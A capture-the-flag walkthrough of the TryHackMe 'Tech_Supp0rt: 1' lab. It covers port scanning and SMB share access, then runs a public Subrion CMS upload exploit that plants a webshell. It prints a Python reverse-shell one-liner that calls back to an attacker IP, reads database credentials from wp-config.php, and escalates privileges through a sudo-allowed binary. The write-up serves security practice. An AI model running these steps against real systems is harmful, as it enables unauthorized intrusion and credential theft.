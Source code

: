 # THM - Tech_Supp0rt: 1

#### Ip: 10.10.199.225
#### Name: Tech_Supp0rt: 1
#### Rating: Easy

----------------------------------------------------------------------

![tech.png](../assets/tech_support_1_assets/tech.png)

```text
Hack into the scammer's under-development website to foil their plans.
```

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also user the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -p-  --min-rate 10000 10.10.199.225                     
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.13s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ sudo nmap -sC -sV -T4 10.10.199.225 -p 22,80,139,445              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-09 16:03 CDT
Nmap scan report for 10.10.199.225
Host is up (0.12s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
|_  256 6b4c23506f36007ca67c1173c1a8600c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -1h49m58s, deviation: 3h10m30s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-09T21:03:43
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-08-10T02:33:45+05:30

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.28 seconds
```

Heading to the site we find an Apache default landing page:

site.png

We can use Feroxbuster to fuzz for directories:

ferox.png

Looks like we've got a `/test` directory, as well as several WordPress directories. 

Heading to http://10.10.199.225/test we find an extremely spammy page:

test.png

Before enumerating HTTP any further, lets check out SMB to see if we can find anything.

I'll see what shares we can access using CrackMapExec:

cme.png

Looks like there's a `websvr` share we can access. To do this I'll use smbclient:

smb.png

Pulling back this file to my machine we find a todo list and some credentials:

enter.txt

This password appears to be encrypted. GOing off the hin in the note I'll head to https://gchq.github.io/CyberChef/ and use the 'Magic' feature to decode this:

chef.png

Based on the note we can navigate to http://10.10.199.225/subrion/panel/ and login with the credentials:

Now that we have working credentials, I searched for Subrion version 4.2.1 exploits and found: https://www.exploit-db.com/exploits/49876

Looks like the exploit logs in with the user provided credentials and uploads a webshell. Lets give it a shot:

### Exploitation

```text
┌──(ryan㉿kali)-[~/THM/Tech_Supp0rt:_1]
└─$ python subrion_exploit.py -u http://10.10.199.225/subrion/panel/ --user admin --passw Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.199.225/subrion/panel/
[+] Success!
[+] Got CSRF token: a52ERKms3Eqillk50kRWwd1iPFgJmxhpCTOdVI4B
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: jsniraeesrslatp

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.199.225/subrion/panel/uploads/jsniraeesrslatp.phar 

$ whoami
www-data

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Nice, that worked!

Lets use a Python one-liner to get a proper shell rather than using this pseudo shell:

We can head to revshells.com and grab the script:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.61.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

stable.png


Browsing around the box I found `/var/www/html/wordpress/wp-config.php` which had some credentials in it:

```text
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

```

We can see who may be using this password and then use the `su` command:

```text
www-data@TechSupport:/var/www/html/wordpress$ cat /etc/passwd | grep bash
cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
scamsite:x:1000:1000:scammer,,,:/home/scamsite:/bin/bash
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
su scamsite
Password: ImAScammerLOL!123!

scamsite@TechSupport:/var/www/html/wordpress$ whoami
whoami
scamsite
```

Cool, that worked. We can now run `sudo -l` to see what user scamsite can run with eleveated permissions:

sudo.png

We can now head to https://gtfobins.github.io/gtfobin and search for iconv:

gtfo.png

Lets use this to read the root.txt flag:

root_flag.png

Thanks for following along!

-Ryan

----------------------------------------------------

